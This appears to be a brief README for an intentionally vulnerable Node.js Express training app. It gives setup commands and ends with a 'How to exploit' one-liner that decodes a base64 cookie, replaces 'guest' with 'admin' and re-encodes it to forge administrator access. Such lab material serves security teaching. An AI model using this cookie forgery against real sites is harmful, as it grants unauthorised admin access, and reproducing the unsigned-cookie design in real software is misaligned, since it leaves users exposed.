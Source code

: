 # Node.js app

Install Node.js and npm
```
apt-get install -yq nodejs npm
```

Initialize the app
```
npm init --yes
```
Install Express framework and required libraries
```
npm install express cookie-parser pug --save
```

Run the application
```
node app.js
```

How to exploit
```
echo <cookie_value> | base64 -d | sed 's/guest/admin/g' | base64
```